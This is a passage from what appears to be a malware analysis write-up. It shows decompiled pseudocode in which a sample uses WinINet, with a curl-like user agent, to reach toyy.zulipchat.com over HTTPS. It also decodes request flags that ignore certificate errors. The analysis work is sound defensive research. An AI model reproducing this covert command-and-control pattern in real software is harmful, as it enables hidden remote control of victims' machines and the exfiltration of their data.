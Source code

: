![image-20240507131745117](../img/image-20240507131745117.png)

This function ends up as the following pseudocode:

    
    
    hinternet = InternetOpenA("Curl/7.68.0", 0, 0, 0, 0)
    hsession = InternetConnectA(hinternet, "toyy.zulipchat.com", 443, 0, 0, 0, INTERNET_SERVICE_HTTP, 0, 1)
    hrequest = HttpOpenRequestA(hsession, param1, param2, 0, 0, 0, 0x44c03100, 1)
    successful = HttpSendRequestA(hrequest, headers, len(headers), param_3, param4)
    InternetReadFile(hrequest, global_buffer, 0x100000, bytes_read_buffer)
    

The flags for `HttpOpenRequestA`, 0x44c03100, are interesting, and as defined
[here](https://learn.microsoft.com/en-us/windows/win32/wininet/api-flags)
break down to:

  * 0x40000000: **INTERNET_FLAG_RAW_DATA**
  * 0x04000000: **INTERNET_FLAG_DONT_CACHE**
  * 0x00800000: **INTERNET_FLAG_SECURE**
  * 0x00400000: **INTERNET_FLAG_KEEP_CONNECTION**
  * 0x00002000: **INTERNET_FLAG_IGNORE_CERT_DATE_INVALID**
  * 0x00001000: **INTERNET_FLAG_IGNORE_CERT_CN_INVALID**
  * 0x00000100:**INTERNET_FLAG_PRAGMA_NOCACHE**
